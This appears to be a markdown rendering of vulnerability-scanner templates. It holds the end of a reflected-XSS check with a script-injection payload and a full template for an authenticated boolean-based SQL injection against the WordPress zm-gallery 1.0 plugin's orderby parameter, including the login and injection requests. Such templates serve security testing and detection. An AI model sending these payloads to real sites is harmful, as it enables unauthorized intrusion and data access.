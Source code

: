 ### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>\<"
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress zm-gallery plugin 1.0 SQL Injection
## Description
- zm-gallery plugin 1.0 for WordPress is susceptible to SQL injection via the order parameter.
- severity - high
- tags - wpscan,cve,cve2016,sqli,wp,wordpress,wp-plugin,authenticated
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=zm_gallery&orderby=(SELECT%20(CASE%20WHEN%20(7422=7422)%20THEN%200x6e616d65%20ELSE%20(SELECT%203211%20UNION%20SELECT%208682)%20END))&order=desc HTTP/1.1
Host: {{Hostname}}

```
### Step - 3
```
GET /wp-admin/admin.php?page=zm_gallery&orderby=(SELECT%20(CASE%20WHEN%20(7422=7421)%20THEN%200x6e616d65%20ELSE%20(SELECT%203211%20UNION%20SELECT%208682)%20END))&order=desc HTTP/1.1
Host: {{Hostname}}

```
### Matchers
